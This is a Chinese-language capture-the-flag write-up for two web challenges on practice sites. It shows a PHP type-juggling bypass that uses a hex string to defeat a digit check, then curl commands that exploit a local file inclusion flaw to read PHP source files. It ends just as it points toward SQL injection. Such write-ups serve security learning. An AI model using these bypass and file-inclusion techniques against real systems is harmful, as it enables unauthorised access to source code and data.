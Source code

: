 

## [起名字真难](http://chinalover.sinaapp.com/web12/index.php)
源代码要求1. 输入不是1-9；2.等于54975581388

```php
function noother_says_correct($number)
{
       $one = ord('1');
       $nine = ord('9');
       for ($i = 0; $i < strlen($number); $i++)
       {   
               $digit = ord($number{$i});
               if ( ($digit >= $one) && ($digit <= $nine) )
               {
                       return false;
               }
       }
          return $number == '54975581388';
}
$flag='*******';
if(noother_says_correct($_GET['key']))
   echo $flag;
else 
   echo 'access denied';
```

可以留意到比较范围是1-9，少了0，可能是因为答案需要十六进制前缀0x的关系；在使用==比较的时候，php会将十六进制的数字字符串转型为整数。刚好 54975581388 的16进制表示`0xccccccccc`没有1-9。

```shell
curl http://chinalover.sinaapp.com/web12/index.php?key=0xccccccccc
```
## [综合2](http://cms.nuptzj.cn/)

页面上有个链接`/about.php?file=`，应该是有本地文件包含漏洞。看一下`/about.php`的源代码。因为有一些实体编码的内容，所以要先解码。

```shell
# about.php
curl http://cms.nuptzj.cn/about.php?file=about.php | perl -MHTML::Entities -pe 'decode_entities($_);' > about.php
```

源代码的获得真的是事半功倍。about.php里面有一个隐藏目录 loginxlcteam ，但是不知道应该怎么包含它，感觉应该是有点用的样子。先看下其它php的源码：
```shell
# index.php
curl http://cms.nuptzj.cn/about.php?file=index.php | perl -MHTML::Entities -pe 'decode_entities($_);' > index.php
# so.php
curl http://cms.nuptzj.cn/about.php?file=so.php | perl -MHTML::Entities -pe 'decode_entities($_)' > cgctf/so.php
```

源码显示，so.php要带上一个http头才能访问`curl http://cms.nuptzj.cn/so.php?id=1 -H 'User-Agent: Xlcteam Browser'`。而且这里要连接数据库，可能就存在SQL注入漏洞：
